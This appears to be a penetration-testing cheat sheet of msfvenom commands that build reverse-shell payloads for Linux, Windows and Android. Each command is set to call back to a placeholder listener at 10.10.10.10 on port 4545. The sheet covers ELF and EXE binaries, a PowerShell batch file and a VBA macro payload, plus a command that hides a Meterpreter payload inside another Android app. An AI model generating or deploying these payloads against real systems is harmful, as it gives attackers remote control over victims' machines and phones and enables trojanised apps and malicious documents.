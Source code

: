 LHOST = 10.10.10.10, RHOST = 12.12.12.12, LPORT = 4545  
  
Meterpreter Reverse Shells  
Linux Reverse Shells  
# x86  
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4545 -f elf > shell.elf  
  
# x64  
$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4545 -f elf > shell.elf  
  
# x86 Reverse HTTP  
$ msfvenom -p linux/x86/meterpreter_reverse_http LHOST=10.10.10.10 LPORT=4545 -f elf > shell.elf  
  
# x64 Reverse HTTP  
$ msfvenom -p linux/x64/meterpreter_reverse_http LHOST=10.10.10.10 LPORT=4545 -f elf > shell.elf  
Windows Reverse Shells  
# x86 normal  
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4545 -f exe > shell.exe  
  
# x64 (CMD Single Stage)  
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4545 -f exe > shell.exe  
  
# reverse HTTP  
$ msfvenom -p windows/meterpreter/reverse_http LHOST=10.10.10.10 LPORT=4545 -f exe > shell.exe  
  
# reverse HTTPS  
$ msfvenom -p windows/meterpreter/reverse_https LHOST=10.10.10.10 LPORT=4545 -f exe > shell.exe  
  
# Powershell Payload  
$ msfvenom -p cmd/windows/reverse_powershell LHOST=10.10.10.10 LPORT=4545 > shell.bat  
  
# Macro Payload  
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4545 -f vba  
Android Reverse Shells  
$ msfvenom -p android/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4545 R > shell.apk  
  
# Android Embed Payload with another apk  
$ msfvenom -x anyApp.apk android/meterpreter/reverse_tcp lhost=10.10.10.10 lport=4545 -o shell.apk  
  